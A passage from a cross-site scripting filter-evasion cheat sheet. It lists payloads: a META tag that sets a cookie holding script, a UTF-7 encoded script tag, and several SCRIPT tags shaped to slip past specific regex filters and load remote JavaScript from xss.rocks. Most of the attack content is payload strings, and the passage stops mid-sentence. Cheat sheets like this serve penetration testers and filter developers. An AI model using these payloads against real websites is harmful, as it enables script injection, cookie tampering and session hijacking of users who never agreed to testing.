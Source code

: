 ````
Admittedly this is pretty obscure but I have seen a few examples where `<META` is allowed and you can use it to overwrite cookies. There are other examples of sites where instead of fetching the username from a database it is stored inside of a cookie to be displayed only to the user who visits the page. With these two scenarios combined you can modify the victim’s cookie which will be displayed back to them as JavaScript (you can also use this to log people out or change their user states, get them to log in as you, etc…):

`<META HTTP-EQUIV="Set-Cookie" Content="USERID=<SCRIPT>alert('XSS')</SCRIPT>">`

UTF-7 Encoding
--------------

If the page that the XSS resides on doesn’t provide a page charset header, or any browser that is set to UTF-7 encoding can be exploited with the following (Thanks to Roman Ivanov for this one). Click here for an example (you don’t need the charset statement if the user’s browser is set to auto-detect and there is no overriding content-types on the page in Internet Explorer and Netscape 8.1 in IE rendering engine mode). This does not work in any modern browser without changing the encoding type which is why it is marked as completely unsupported. Watchfire found this hole in Google’s custom 404 script.:

`<HEAD><META HTTP-EQUIV="CONTENT-TYPE" CONTENT="text/html; charset=UTF-7"> </HEAD>+ADw-SCRIPT+AD4-alert('XSS');+ADw-/SCRIPT+AD4-`

XSS Using HTML Quote Encapsulation
----------------------------------

This was tested in IE, your mileage may vary. For performing XSS on sites that allow `<SCRIPT>` but don’t allow `<SCRIPT SRC...` by way of a regex filter `/\<script\[^\>\]+src/i`:

`<SCRIPT a=">" SRC="httx://xss.rocks/xss.js"></SCRIPT>`

For performing XSS on sites that allow `<SCRIPT>` but don’t allow `\<script src...` by way of a regex filter `/\<script((\\s+\\w+(\\s\*=\\s\*(?:"(.)\*?"|'(.)\*?'|\[^'"\>\\s\]+))?)+\\s\*|\\s\*)src/i` (this is an important one, because I’ve seen this regex in the wild):

`<SCRIPT =">" SRC="httx://xss.rocks/xss.js"></SCRIPT>`

Another XSS to evade the same filter, `/\<script((\\s+\\w+(\\s\*=\\s\*(?:"(.)\*?"|'(.)\*?'|\[^'"\>\\s\]+))?)+\\s\*|\\s\*)src/i`:

`<SCRIPT a=">" '' SRC="httx://xss.rocks/xss.js"></SCRIPT>`

Yet another XSS to evade the same filter, `/\<script((\\s+\\w+(\\s\*=\\s\*(?:"(.)\*?"|'(.)\*?'|\[^'"\>\\s\]+))?)+\\s\*|\\s\*)src/i`. I know I said I wasn’t goint to discuss mitigation techniques but the only thing I’ve seen work for this XSS example if you still want to allow `<SCRIPT>` tags but not remote script is a state machine (and of course there are other ways to get around this if they allow `<SCRIPT>` tags):

`<SCRIPT "a='>'" SRC="httx://xss.rocks/xss.js"></SCRIPT>`

And one last XSS attack to evade, `/\<script((\\s+\\w+(\\s\*=\\s\*(?:"(.)\*?"|'(.)\*?'|\[^'"\>\\s\]+))?)+\\s\*|\\s\*)src/i` using grave accents (again, doesn’t work in Firefox):

`<SCRIPT a=`\> `SRC="httx://xss.rocks/xss.js"></SCRIPT>`

Here’s an XSS example that bets on the fact that the regex won’t catch a matching pair of quotes but will rather find any quotes to terminate a parameter string improperly:

`<SCRIPT a=">'>" SRC="httx://xss.rocks/xss.js"></SCRIPT>`

This XSS still worries me, as it would be nearly impossible to stop this without blocking all active content:

````
